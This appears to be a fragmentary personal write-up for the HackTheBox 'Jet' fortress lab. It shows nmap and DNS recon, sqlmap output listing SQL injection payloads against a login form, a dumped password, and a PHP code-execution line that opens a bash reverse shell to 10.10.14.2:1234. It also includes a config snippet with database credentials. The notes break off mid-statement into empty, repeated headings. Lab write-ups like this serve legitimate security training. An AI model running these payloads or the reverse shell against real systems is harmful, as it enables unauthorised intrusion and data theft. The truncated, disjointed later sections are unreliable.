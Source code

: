 # - Fortress JET -
- [+] : Target IP
   >>	10.13.37.10
## - RECON -
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
5555/tcp open  freeciv
7777/tcp open  cbt




- [+] : Introduction
   >>	Lift off with this introductory fortress from Jet! Featuring interesting web vectors and challenges, this fortress is perfect for those getting started.
   
- [+] : Connect
   >>	http://10.13.37.10/
   
- [+] : Digging in...
   >>	DNS recon :
   
		   ┌─[parrot@parrot]─[~/Desktop/HackingLab/HackTheBox/Fortresses/jet]
		└──╼ $dig @10.13.37.10 -x 10.13.37.10

		; <<>> DiG 9.18.24-1-Debian <<>> @10.13.37.10 -x 10.13.37.10
		; (1 server found)
		;; global options: +cmd
		;; Got answer:
		;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 53661
		;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
		;; WARNING: recursion requested but not available

		;; OPT PSEUDOSECTION:
		; EDNS: version: 0, flags:; udp: 4096
		;; QUESTION SECTION:
		;10.37.13.10.in-addr.arpa.	IN	PTR

		;; AUTHORITY SECTION:
		37.13.10.in-addr.arpa.	604800	IN	SOA	www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800

		;; Query time: 70 msec
		;; SERVER: 10.13.37.10#53(10.13.37.10) (UDP)
		;; WHEN: Fri Jun 14 02:42:31 BST 2024
		;; MSG SIZE  rcvd: 109


- [+] : 2 domains 
   >>	www.securewebinc.jet. securewebinc.jet.

1718330397

- [+] : 
   >>	
└──╼ $sqlmap -u "http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dologin.php" --data="username=admin&password=admin"
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 6234=6234 AND 'glnu'='glnu&password=admin

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 2321 FROM(SELECT COUNT(*),CONCAT(0x716a627071,(SELECT (ELT(2321=2321,1))),0x7171706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'lDEi'='lDEi&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 4067 FROM (SELECT(SLEEP(5)))FnPm) AND 'tDUA'='tDUA&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-1736' UNION ALL SELECT NULL,CONCAT(0x716a627071,0x636a72644a4e42544c6e7050567a564c576d436c537a416f7a524742776b7454444374455363464b,0x7171706271),NULL-- -&password=admin
---
[04:02:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3, PHP
back-end DBMS: MySQL >= 5.0
[04:02:06] [INFO] fetched data logged to text files under '/home/parrot/.local/share/sqlmap/output/www.securewebinc.jet'

[*] ending @ 04:02:06 /2024-07-07/


available databases [2]:                                                       
[*] information_schema
[*] jetadmin

$sqlmap -u "http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dologin.php" --data="username=admin&password=admin" -D jetadmin -T users --columns --dump --batch
Hackthesystem200

*/e
system('bash -c "/bin/bash -i >& /dev/tcp/10.10.14.2/1234 0>&1"')


- [+] : 
   >>	

$servername = "localhost";
$username = "jet";
$password = "dcr46kdl6zsld68idtyufldro";

// Create connection
$conn = new mysqli($servername, $username, $password,'jetadmin');

// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

/* User Creation
$username = 'admin';
$password = 'apasswordhere';
$hashPassword = password_hash($password,PASSWORD_BCRYPT);

$sql = "insert into users (username, password) valu

## - RECON -

- [+] : 
   >>	
--data=username=admin&
- [+] : 
   >>	

- [+] : 
   >>	

- [+] : 
   >>	

- [+] : 
   >>	

   
